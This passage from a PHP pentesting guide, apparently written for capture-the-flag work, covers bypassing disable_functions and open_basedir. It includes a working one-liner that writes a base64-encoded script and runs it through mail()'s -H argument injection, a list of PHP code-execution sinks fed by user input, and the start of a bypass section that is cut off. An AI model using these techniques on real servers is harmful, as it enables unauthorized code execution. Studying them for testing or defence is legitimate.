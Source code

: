 ```bash
file_put_contents('/www/readflag.sh', base64_decode('IyEvYmluL3NoCi9yZWFkZmxhZyA+IC90bXAvZmxhZy50eHQKCg==')); chmod('/www/readflag.sh', 0777);  mail('', '', '', '', '-H \"exec /www/readflag.sh\"'); echo file_get_contents('/tmp/flag.txt');
```

**dl** - This function can be used to dynamically load a PHP extension. This function won't be present always, so you should check if it's available before trying to exploit it. Read[ this page to learn how to exploit this function](disable_functions-bypass-dl-function.md).

### PHP Code Execution

Apart from eval there are other ways to execute PHP code: include/require can be used for remote code execution in the form of Local File Include and Remote File Include vulnerabilities.  
**eval\(\)**  
**assert\(\)** - identical to eval\(\)  
**preg\_replace\('/.\*/e',...\)** - /e does an eval\(\) on the match  
**create\_function\(\)** - Create a function and use eval\(\)  
**include\(\)**  
**include\_once\(\)**  
**require\(\)**  
**require\_once\(\)**  
**$\_GET\['func\_name'\]\($\_GET\['argument'\]\);**  
**$func = new ReflectionFunction\($\_GET\['func\_name'\]\);  
$func-&gt;invoke\(\);**  or  
**$func-&gt;invokeArgs\(array\(\)\);  
serialize/unserialize**

## disable\_functions & open\_basedir

**Disabled functions** is the setting that can be configured in `.ini` files in PHP that will **forbid** the use of the indicated **functions**. **Open basedir** is the setting that indicates to PHP the folder that it can access.  
The PHP setting sue to be configured in the path _/etc/php7/conf.d_ or similar.

Both configuration can be seen in the output of **`phpinfo()`**:

![](https://0xrick.github.io/images/hackthebox/kryptos/17.png)

![](../../../../.gitbook/assets/image%20%28381%29.png)

## open\_basedir Bypass

`open_basedir` will configure the folders that PHP can access, you **won't be able to to write/read/execute any file outside** those folders, but also you **won't even be able to list** other directories.  
However, if somehow you are able to execute arbitrary PHP code you can **try** the following chunk of **codes** to try to **bypass** the restriction.

### Listing dirs with glob:// bypass
